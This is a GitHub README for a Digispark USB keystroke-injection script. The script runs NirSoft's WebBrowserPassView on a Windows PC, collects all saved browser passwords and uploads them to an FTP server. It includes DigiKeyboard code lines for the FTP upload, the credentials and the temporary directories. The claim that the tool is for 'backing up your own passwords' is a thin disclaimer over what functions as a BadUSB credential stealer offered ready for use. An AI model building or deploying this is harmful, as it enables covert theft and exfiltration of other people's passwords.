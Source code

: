 # Digispark-PasswordRetriever
<br/>
<p align="center">
  <a href="https://github.com/dehmitros/Digispark-PasswordRetriever">
    <img src="https://i.imgur.com/qkDFmPA.png" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">Digispark Password Retriever</h3>

  <p align="center">
    Back-up all your passwords in a few minutes!
    <br/>
    <br/>
    <a href="https://github.com/dehmitros/Digispark-PasswordRetriever/issues">Report Bugs</a>
  </p>
</p>

![Downloads](https://img.shields.io/github/downloads/dehmitros/Digispark-PasswordRetriever/total) 

## Table Of Contents
* [Warning](#warning)
* [About the Project](#about-the-project)
* [Getting Started](#getting-started)
  * [Prerequisites](#prerequisites)
* [Usage](#usage)
* [License](#license)
* [Author](#authors)

## Warning

This script was created for backing-up YOUR OWN passwords and to be used strictly for computers YOU own! It is not supposed to be a hack or to be used as one. I am in NO WAY responsible for anything illegal that happens through the use of this script.

## About The Project

Every password you've ever saved in your browser gets chached. While this does raise some security concerns, it means backing-up and moving passwords from one computer to another is relatively easy. What this script does is it uses NirSoft's very well-known password retrieving tool (WebBrowserPassView), and automatically upload it to a specified FTP server using a dirt-cheap arduino-compatible board called DigiSpark.

## Getting Started

Firstly you need to download the script and open it in your Arduino IDE.
Either click on the green "Code" button > Download as zip
or
Select the script you want to use and copy-paste it to your Arduino IDE.

### Prerequisites

After you've opened the script, you will need to modify a few things.

Firstly, you need to specify what FTP server you're using (default is ftp.drivehq.com since it offers a free account).

Go to 
```sh
DigiKeyboard.print("open ftp.drivehq.com");
```
and change it according to your needs.

You will then need to type your username/password for the FTP server 2 times each
Firstly in 
```sh
//get file through FTP
```
and secondly in
```sh
//send file through FTP
```

Both look like this
```sh
DigiKeyboard.print("username");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1200);
DigiKeyboard.print("password");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
```

Additionally you can also change the directory the script makes + it's location by modifying the lines
```sh
DigiKeyboard.print("mkdir C:\\t3mp0r4ry");
DigiKeyboard.print("rmdir C:\\t3mp0r4ry /s");
DigiKeyboard.print("cd C:\\t3mp0r4ry");
 ``` 
(The last one appears 2 times)

Lastly you can modify the delays depending on the speeds of your computer, they look like this
```sh
DigiKeyboard.delay("enter number in milliseconds");
 ``` 


## Usage

Just upload the modified script to your DigiSpark and you're good to go!

## License

Distributed under the ODC Open Database License (ODbL). See [LICENSE](https://github.com/dehmitros/Digispark-PasswordRetriever/blob/master/LICENSE.md) for more information.

## Authors

* [DehMitros](https://github.com/dehmitros/)